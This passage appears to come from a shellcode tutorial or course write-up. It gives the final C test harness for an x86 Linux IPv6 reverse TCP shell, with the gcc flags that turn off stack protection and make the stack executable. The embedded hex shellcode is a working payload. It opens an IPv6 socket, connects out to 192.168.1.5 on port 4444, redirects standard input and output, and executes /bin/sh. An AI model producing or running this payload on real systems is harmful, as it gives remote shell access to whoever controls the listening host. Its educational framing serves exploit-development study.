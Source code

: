 ___
### SHELLCODE IN C:
```
#include<stdio.h>

unsigned char shellcode[] = \
"\x6a\x66\x58\x31\xdb\x6a\x06\x6a\x01\x6a\x0a\x43\x89\xe1\xcd\x80\x96\x31\xc0\x50\x68\xc0\xa8\x01\x05\x66\x6a\xff\x50\x50\x66\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe1\x6a\x1c\x51\x56\x89\xe1\x43\x43\x6a\x66\x58\xcd\x80\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc9\x51\x6a\x0b\x58\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

main()
{
	printf("Shellcode Length:  %d\n", sizeof(shellcode) - 1);
	int (*ret)() = (int(*)())shellcode;
	ret();
}
```

___

___
### COMPILING AND EXECUTING FINAL SHELLCODE:

```
gcc shell_reverse_tcp_ipv6_final.c -o shell_reverse_tcp_ipv6_final -fno-stack-protector -z execstack -m32
```

BINGO!!!!

![Shell_Reverse_TCP for IPV6](/media/2-tcp-rev-shell-3.jpg)
